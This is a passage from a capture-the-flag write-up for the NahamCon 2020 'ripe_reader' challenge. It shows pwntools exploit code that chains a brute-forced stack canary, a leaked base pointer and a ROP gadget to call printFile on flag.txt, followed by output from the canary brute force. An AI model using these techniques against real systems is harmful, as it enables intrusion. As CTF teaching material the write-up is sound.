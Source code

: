 At this point, control of RIP has been obtained.


### Final Pass: ROP call `printFile` to get the flag

```python
context.update(arch='amd64')
rop = ROP([binary])
try:
    pop_rsi_r15 = rop.find_gadget(['pop rsi','pop r15','ret'])[0]
except:
    print("no ROP for you!")
    sys.exit(1)

context.log_level = 'INFO'

p = remote(server,port)
p.recvuntil('[q] QUIT')

payload  = buf + p64(canary) + bp
payload += p64(pop_rsi_r15)
payload += p64(next(binary.search(b'./flag.txt')))
payload += p64(0x0)
payload += p64(binary.symbols['printFile'])

p.send(payload)
p.stream()
```

`printFile` requires two parameters, a socket number (RDI), and pointer to a filename (RSI).  The socket number is unknown, however it is already in RDI thanks to `send(param_1,"Invalid option!\n",0x10,0);` (you can check this with GDB yourself).

Since we do not know the address of libc, we'll have to make do with `ripe_reader` for ROP gadgets--`pop rsi; pop r15; ret` will work nicely.

`ripe_reader` provides the string `./flag.txt`.

We'll throw a big fat zero to R15.

All this left is to `printFile` `flag.txt`.

Output:

```bash
# time ./exploit.py two.jh2i.com 50023
[*] '/pwd/datajerk/nahamconctf2020/ripe_reader/ripe_reader'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
0x4d00
0x924d00
0x50924d00
0xc850924d00
0x11c850924d00
0x9f11c850924d00
0xc19f11c850924d00
canary 0xc19f11c850924d00
0xe06
0x1e06
0x2e06
0x3e06
0x4e06
0x5e06
0x6e06
0x7e06
```